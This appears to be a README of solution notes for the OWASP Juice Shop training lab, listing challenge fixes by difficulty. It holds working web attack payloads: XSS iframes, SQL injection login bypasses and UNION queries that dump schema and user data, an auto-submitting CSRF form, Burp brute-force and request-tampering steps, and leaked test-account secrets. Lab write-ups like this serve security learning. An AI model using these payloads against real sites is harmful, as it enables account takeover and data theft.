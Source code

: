 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br><br>
http://localhost:3000/#/score-board<br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupon <br><br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br><br>

### Bonus Payload<br>
Search bar <br>
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```
### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br><br>

### Error Handling<br>
Account Login > put ' in email and password fields<br><br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br><br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_output<br>
cd gospider_output
cat 127_0_0_1 | grep code-200<br><br>

### Missing Encoding<br>
change # to %23<br>
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg<br><br>

### Zero Stars<br>
http://localhost:3000/#/contact<br>
burp proxy > repeater > rating:0<br><br>

### Repetitive Registration<br>
http://localhost:3000/#/register<br>
burp proxy > repeater > passwordRepeat:""<br><br>

## 2 STAR
### Login Admin<br>
http://localhost:3000/#/login<br>
email:admin' or true--<br>
password:'<br><br>

### Admin Section<br>
http://localhost:3000/#/administration<br><br>

### Five-Star Feedback<br>
http://localhost:3000/#/administration<br>
delete button<br>

### Empty User Registration<br>
http://localhost:3000/#/login<br>
burp proxy > repeater > email:"",password:"",passwordRepeat:""<br><br>

### Empty User Registration<br>
email:mc.safesearch@juice-sh.op<br>
password:Mr. N00dles<br>

### Meta Geo Stalking<br>
http://localhost:3000/#/forgot-password<br>
exiftool favorite-hiking-place.png <br>
36°57’31.38″ N 84°20’53.58″ W <br>
burp suite > repeater<br>
email: john@juice-sh.op<br>
secret:Daniel Boone National Forest<br>

### Weird Crypto
hash analyzer > 4b2e6b2618920cb1713bb801cd05401e<br>
http://localhost:3000/#/contact <br>
Comment: md5 > submit <br>

### Visual Geo Stalking
http://localhost:3000/#/forgot-password<br>
http://localhost:3000/assets/public/images/uploads/IMG_4253.jpg<br>
email: emma@juice-sh.op<br>
secret: ITsec<br>

### View Basket
http://localhost:3000/#/basket<br>
burp suite > repeater<br>
GET /rest/basket/X HTTP/1.1 <br>

### Security Policy
localhost:3000/.well-known/security.txt<br>

### Deprecated Interface 
http://localhost:3000/#/complain <br>
sudo apt install npm<br>
sudo npm -g install js-beautify<br>
js-beautify main.js > main1.js<br>
grep pdf main1.js<br>
```
allowedMimeType: ["application/pdf", "application/xml", "text/xml", "application/zip", "application/x-zip-compressed", "multipart/x-zip"],["ng2FileSelect", "", "id", "file", "type", "file", "accept", ".pdf,.zip", "aria-label", "Input area for uploading a single invoice PDF or XML B2B order file or a ZIP archive containing multiple invoices or orders\x3c!----\x3e", 2, "margin-left", "10px", 3, "uploader"]
rename .xml file extension to .zip or .pdf > uoload and submit
burp suite > repeater > remove .zip to .xml extension
Content-Disposition: form-data; name="file"; filename="legal.xml.zip"
```
### Login Admin
http://localhost:3000/#/login<br>
email:admin@juice-sh.op<br>
burp suite > intruder > positions: password > attack type: sniper<br>
payloads > usr/share/wordlist/fern-wifi/common.txt <br>

## 3 STAR
### Upload type
http://localhost:3000/#/complain <br>
rename .txt file extension to .zip or .pdf > uoload and submit<br>
burp suite > repeater > remove .zip to .txt extension<br>
Content-Disposition: form-data; name="file"; filename="legal.txt.zip"<br>

### Admin Registration
http://localhost:3000/#/register<br>
burp suite > proxy <br>
Post response > role:"customer" <br>
Post request > "role":"admin" <br>

### Bjoern's Favorite Pet 
http://localhost:3000/#/forgot-password<br>
email:bjoern@owasp.org <br>
secret: Zaya<br>

### CAPTCHA Bypass 
http://localhost:3000/#/contact <br>
burp suite > proxy > repeater <br>
send x10 <br>

### CSRF
download firefox 96.0 <br>
http://localhost:3000/profile > login into account <br>
http://htmledit.squarefree.com/ <br>
submit form: <br>
```
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="CSRF"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
```

### Database schema
http://localhost:3000/#/search?q=<br>
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20sql,2,3,4,5,6,7,8,9%20from%20sqlite_master-- HTTP/1.1<br>

### Upload size

### Manipulate Basket 
Add to basket<br>
burp suite > proxy > repeater <br>
POST /api/BasketItems/ HTTP/1.1 <br>
```
"ProductId":24,
"BasketId":"1",
"quantity":1,
"BasketId":"3"
```

### Reset Jim's Password 
http://localhost:3000/#/forgot-password<br>
email:jim@juice-sh.op<br>
secret: Samuel<br>

###  Forged Review 
add review for item<br>
burp suite > proxy<br>
"author":"emma@juice-sh.op"<br>

### Login Bender
http://localhost:3000/#/login<br>
email: bender@juice-sh.op'--<br>
password: '<br>

### Login Amy
http://localhost:3000/#/login<br>
burp suite > proxy<br>
"email":"amy@juice-sh.op"<br>
"password":"K1f....................."<br>

### GDPR Data Erasure 
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20deletedAt,email,username,4,5,6,7,8,9%20from%20Users-- HTTP/1.1<br>
http://localhost:3000/#/login<br>
email:chris.pike@juice-sh.op'--<br>
password:'<br>

### Deluxe Fraud
http://localhost:3000/#/deluxe-membership<br>
firefox > inspect elements on Pay button<br>
remove disabled="true",mat-button-disabled<br>
burp suite > proxy > repeater <br> 
"paymentMode":"paid" <br>

### Payback time
Add to basket <br>
burp suite > proxy<br>
POST /api/BasketItems/ HTTP/1.1<br>
"ProductId":41,"BasketId":"1","quantity":-999<br>
check out<br>

### Privacy Policy Inspection 
firefox > highlighted glowing text > inspect 
span class="hot"
search .hot
http://localhost we may also instruct you to refuse all reasonably necessary responsibility
http://localhost:3000/we/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility
















